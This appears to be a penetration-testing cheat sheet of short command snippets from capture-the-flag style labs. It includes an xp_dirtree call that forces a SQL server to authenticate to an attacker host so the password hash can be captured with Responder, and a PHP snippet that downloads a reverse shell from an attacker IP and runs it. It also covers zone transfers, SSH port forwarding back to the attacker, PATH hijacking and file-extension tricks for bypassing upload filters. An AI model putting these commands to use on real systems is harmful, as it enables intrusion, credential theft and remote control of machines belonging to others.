 ```powershell
```
### PowerUpSQL Cheat Sheet

[https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet](https://)
### Sqlcmd
```console
sqlcmd -? # for help
sqlcmd -Q 'xp_dirtree "//10.10.14.45/test"' # use responder to capture password
```
### Zone Transfers
```console
dig axfr @10.10.10.13 cronos.htb
host -t axfr cronos.htb 10.10.10.13
```
### TcpDump
```console
# filter for ICMP packets
tcpdump -i [interface] -n icmp
```
### Port Forwarding
```console
# remote port forward example
#     - target had internal mysql port open
#     - port forward to our machine to gain access to internal port
ssh -R 3306:127.0.0.1:3306 root@10.10.14.45

# local port foward example
#     - target had internal mysql port open
#     - connecting to target and forwarding traffic from internal port 3306 to our port 3306 
ssh -L 3306:127.0.0.1:3306 user@10.10.10.10
```
### Connect to MySQL Database
```console
mysql -h [target] --port [target_port] -u [user] -p [password]
# prompt for password
mysql -h [target] --port [target_port] -u [user] -p

# example for remote port forwarding
mysql -h 127.0.0.1 --port 3333 -u MYSQL_USER -pMYSQL_PASS
```
### PHP Download and execute
```php=
<?php
exec("curl http://10.10.14.45/php-reverse-shell.php | php")
?>
```
### Exporting PATH
```console
# adding /tmp to PATH
# making /tmp the first directory Bash will check for executables
export PATH=/tmp:$PATH

# also adds /tmp to PATH
# but makes the /tmp directory the last directory Bash will check for executables
export PATH=$PATH:/tmp
```
### Bypassing Upload File Restrictions
```
PHP: phtml, .php, .php3, .php4, .php5, .inc

```